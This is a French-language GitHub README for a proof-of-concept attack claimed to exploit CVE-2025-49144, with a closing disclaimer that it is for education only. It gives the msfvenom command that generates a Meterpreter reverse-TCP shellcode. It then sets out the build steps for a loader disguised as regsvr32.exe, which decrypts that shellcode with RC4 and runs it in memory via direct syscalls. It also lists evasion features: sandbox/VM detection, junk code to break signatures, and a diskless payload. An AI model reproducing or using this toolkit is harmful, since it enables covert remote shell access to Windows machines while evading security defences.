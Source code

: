 # 🔓 CVE-2025-49144

Ce projet propose un PoC exploitant **CVE-2025-49144** via un détournement local de `regsvr32.exe` (LOLBIN hijacking), pour exécuter du shellcode Meterpreter chiffré avec **RC4** et injecté en mémoire via des **appels système directs** grâce à [SysWhispers3](https://github.com/klezVirus/SysWhispers3).

---

## 📦 Prérequis

- Python 3.x
- `msfvenom` (Metasploit Framework)
- MinGW-w64 (`x86_64-w64-mingw32-gcc`)
- Windows (environnement de test)

---

## 💡 Fonctionnalités

- Chiffrement/déchiffrement RC4 (clé en dur)
- Appels système directs pour l’allocation, la protection et la terminaison
- Détection environnement sandbox/VM (optionnelle)
- Aucune écriture de payload sur disque (exécution full in-memory)
- Camouflage via exécution légitime de `regsvr32.exe`

---

## ⚙️ Étapes de génération

### 1. Générer le shellcode

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f c -o shellcode.txt
```

### 2. Formater le shellcode pour Python

```bash
python3 format_shellcode_txt.py
```

📌 Copier le résultat dans `rc4_shellcode.py`.

### 3. Générer le header C

```bash
python3 rc4_shellcode.py
```

👉 Cela produit `encrypted_payload.h`.

### 4. Compiler le loader

```bash
x86_64-w64-mingw32-gcc loader.c syscalls.c syscalls.obj -o regsvr32.exe -mwindows -s -O2
```

---

## 📁 Composants

- `format_shellcode_txt.py` : Nettoie et reformate le shellcode brut
- `rc4_shellcode.py` : Chiffre le shellcode + génère `encrypted_payload.h`
- `loader.c` : Déchiffre, injecte et exécute le shellcode en mémoire
- `syscalls.*` : Appels noyau générés via SysWhispers3

---

## 🔍 Détails du Code (`loader.c`)

### `rc4()`

```c
void rc4(unsigned char *data, unsigned int len, const unsigned char *key, unsigned int keylen)
```

Implémente RC4 : S-box, KSA, PRGA et XOR à la volée.

---

### `junk()`

Fonction inutile mais présente pour casser les empreintes binaires :

```c
if (rand() % 123 == 42) MessageBoxA(...);
```

---

### `is_sandbox_environment()`

Détecte :
- RAM < 2 Go
- CPU < 2
- Inactivité > 5 min
- Uptime < 30 sec
- Présence de chaînes VMware, VirtualBox, QEMU, etc.

---

### `WinMain()`

1. **Initialise** le contexte (random, junk)
2. **Optionnel** : vérifie environnement sandbox
3. **Alloue** de la mémoire (syscall)
4. **Déchiffre** le shellcode (RC4)
5. **Protège** la mémoire (RX)
6. **Exécute** le shellcode
7. **Lance** le vrai `regsvr32.exe` pour masquer l’action
8. **Termine** le processus (syscall)

---

## ✅ Résumé des rôles

| Fonction               | Rôle                                                              |
|------------------------|-------------------------------------------------------------------|
| `rc4()`                | Déchiffrement du payload RC4 en mémoire                           |
| `junk()`               | Perturbation d’empreinte binaire                                  |
| `is_sandbox_environment()` | Bypass VM/sandbox si activé                                     |
| `WinMain()`            | Orchestration complète de l'exécution                             |

---

## ⚠️ Avertissement

> 🚨 **À des fins éducatives uniquement.**  
> Toute utilisation sans autorisation explicite constitue une violation de la loi.  
> L’auteur décline toute responsabilité en cas de détournement.
